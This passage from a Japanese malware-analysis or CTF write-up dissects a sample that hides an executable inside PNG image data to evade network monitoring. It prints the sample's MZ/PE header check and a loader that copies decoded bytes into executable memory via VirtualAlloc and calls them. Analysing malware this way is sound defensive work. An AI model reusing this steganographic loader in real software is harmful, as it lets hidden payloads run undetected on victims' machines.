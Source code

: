 一見するとただのPNG形式ですが，明らかに怪しいノイズデータとなっています．無害なファイル形式を装ってコンテンツをローカルへ保存する手法はネットワークの監視をすり抜ける常套手段でもあります．今回の例であれば，監視ツールから見るとimgurからただ画像を取得したと判断されたのだと思います．特にPNG形式は可逆圧縮なのでコンテンツの隠れ蓑として優秀であると言えます\footnote{CTFで言えば意図的に情報を隠すステガノグラフィとして一大分野になっていますよね...？}．関数\texttt{get\_encoded\_data}ではPNG形式のRGB成分からバイトコードへ変換されています．また，フォーマットを解析して，バイトコードからコンテンツを展開するためにPILを使った関数は\texttt{is\_valid\_payl}でした．関数内でチェックしている23117と17744は，16進数へ変換してやるとMZやPEのマジックナンバーであることに気が付きました．つまり，この関数はデコードしたデータをPE形式などの実行可能ファイルへ変換していると推察できます．実行ファイルを抽出するために\textbf{another.py}を再度書き換えます．\texttt{main}では次に\texttt{load\_level2}へデコードしたデータを渡しています．
\begin{tcolorbox}[sharp corners, left=2mm]\scriptsize
\begin{verbatim}
def is_valid_payl(content):
    if get_word(content) != 23117:
        return False
    next_offset = get_dword(content[60:])
    next_hdr = content[next_offset:]
    if get_dword(next_hdr) != 17744:
        return False
    return True
\end{verbatim}
\end{tcolorbox}
\begin{tcolorbox}[sharp corners, left=2mm]\scriptsize
\begin{verbatim}
def load_level2(rawbytes, bytesread):
    try:
        if prepare_stage(rawbytes, bytesread):
            return True
    except:
        return False

def prepare_stage(content, content_size):
    virtual_buf = kernel_dll.VirtualAlloc(0, content_size, 12288, 64)
    if virtual_buf == 0:
        return False
    res = memmove(virtual_buf, content, content_size)
    if res == 0:
        return False
    MR = WINFUNCTYPE(c_uint)(virtual_buf + 2)
    MR()
    return True
\end{verbatim}
\end{tcolorbox}
ソースコードを読むと，この関数は，まずはじめに\texttt{VirtualAlloc}を使用して，コードを格納するための十分な領域を確保しています．第四引数の64は，\texttt{PAGE\_EXECUTE\_READWRITE}を意味するので読み書き可能・実行可能な権限で領域であるとわかります．対象は\texttt{memmove}関数によって書き込みが実行されるといった内容です．\texttt{prepare\_stage}へ数行追加してコンテンツのダンプファイルを取得してみましょう．
